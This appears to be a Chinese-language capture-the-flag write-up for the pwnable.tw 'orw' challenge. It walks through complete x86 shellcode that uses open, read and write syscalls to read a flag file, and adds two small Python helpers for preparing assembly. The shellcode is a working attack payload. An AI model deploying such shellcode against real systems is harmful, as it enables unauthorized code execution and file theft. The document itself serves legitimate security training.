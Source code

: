 ```yaml
---
title: pwnable.tw 0x1 orw writeup
date: 2019-02-13 20:56:55
tags: [pwn]
---
```


> 地址：[https://pwnable.tw/challenge/#2](https://pwnable.tw/challenge/#2)

## 分析

扔到 Linux 虚拟机里执行一下，提示：`Give my your shellcode:`（应该是 "Give me your shellcode"），结合题目提示：

```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.
```

所以解题思路应该是用编写 shellcode，利用 `open`、`read`、`write` 这三个 syscall 读取 `/home/orw/flag` 中的内容。
看反汇编内容也印证了这一猜想：在获取用户输入之后，直接把输入当作指令执行了
![-w1097](https://i.loli.net/2019/02/13/5c6413f403283.jpg)


## PWN

下面开始编写 shellcode。先从 C 语言的角度考虑如何实现，伪代码如下：

```c
int fd = open("/home/orw/flag", 0, 0); // 打开文件
read(fd, buffer, count);  // 读取内容
write(1, buffer, count);  // 写到 stdout
```

所以 参考 [Linux System Call Table](https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls32.html) 整理成汇编代码：

```asm
; open
xor ecx, ecx     ; ecx = 0
xor edx, edx     ; edx = 0
push ecx         ; 字符串终止符
push 0x67616c66  ; "flag"
push 0x2f2f7772  ; "rw//"
push 0x6f2f2f65  ; "e//o"
push 0x6d6f682f  ; "/hom"
mov ebx, esp     ; ebx = esp, 文件路径
mov eax, 0x5     ; syscall number 5, sys_open
int 0x80         ; call

; read
mov ebx, eax  ; fd
mov ecx, esp  ; buffer
mov edx, 0x30 ; size
mov eax, 0x3  ; read
int 0x80      ; call

; write
mov ebx, 0x1  ; stdout
mov eax, 0x4  ; write
int 0x80      ; call
```

##  附录1
鉴于 `pwntools` 中 `asm()` 方法不支持注释，而我又比较喜欢写注释，所以写了一个简单的 python 函数来处理汇编代码中的注释：

```python
import re

re_pure_asm = re.compile('^(.+?)(?=;)')

def pure_asm(string):
    lines = []
    for line in string.splitlines():
        result = re_pure_asm.findall(line)
        if len(result) > 0:
            lines.append(result[0].strip())
    return '\n'.join(lines)
```

## 附录2
为了比较方便的把 `flag` 这样的字符串转换成 `0x67616c66` 这样的 16进制小端数值，也写了一个简单的 python 方法：

```python
def convert_str_to_hex(string):
    parts = []
    for ch in string:
        parts.insert(0, format(ord(ch), 'x'))
    return '0x' + ''.join(parts)
```